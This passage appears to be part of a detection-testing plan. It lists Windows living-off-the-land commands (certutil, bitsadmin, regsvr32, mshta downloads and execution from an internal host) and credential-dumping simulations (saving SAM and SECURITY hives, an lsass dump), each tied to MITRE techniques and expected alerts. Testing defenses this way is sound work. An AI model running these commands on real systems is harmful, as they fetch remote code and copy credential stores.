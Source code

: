 ### 3.2 Living Off The Land Attacks

**Objective**: Test detection of legitimate tools used maliciously
**MITRE Technique**: T1218 (Signed Binary Proxy Execution)

```powershell
# Using certutil for download
certutil.exe -urlcache -split -f "http://10.0.3.150/test.txt" C:\temp\test.txt

# Using bitsadmin for download
bitsadmin.exe /transfer test /download /priority high "http://10.0.3.150/test.txt" "C:\temp\test.txt"

# Using regsvr32 for code execution
regsvr32.exe /s /n /u /i:"http://10.0.3.150/test.sct" scrobj.dll

# Using rundll32 for execution
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";alert('test');

# Using mshta for execution
mshta.exe "http://10.0.3.150/test.hta"

# WMI for persistence
wmic /node:localhost process call create "powershell.exe -Command Get-Process"

# Scheduled task creation
schtasks.exe /create /tn "TestTask" /tr "powershell.exe -Command Get-Date" /sc daily
```

**Expected Detections**:
- Unusual use of system binaries
- Process creation events (Sysmon EventID 1)
- Network connections from system tools
- Scheduled task creation (EventID 4698)

### 3.3 Credential Dumping Simulation

**Objective**: Test credential access monitoring
**MITRE Technique**: T1003 (OS Credential Dumping)

```powershell
# Registry hive access simulation
reg.exe save HKLM\SYSTEM C:\temp\system.hiv
reg.exe save HKLM\SAM C:\temp\sam.hiv
reg.exe save HKLM\SECURITY C:\temp\security.hiv

# LSASS process access simulation
Get-Process lsass | Select-Object ProcessName, Id, WorkingSet

# Windows Credential Manager access
cmdkey /list
rundll32.exe keymgr.dll,KRShowKeyMgr

# Security log access
Get-WinEvent -LogName Security | Where-Object {$_.Id -eq 4624} | Select-Object -First 10

# Memory dump simulation (requires admin privileges)
# Note: Use with caution in production environments
# procdump.exe -ma lsass.exe C:\temp\lsass.dmp
```

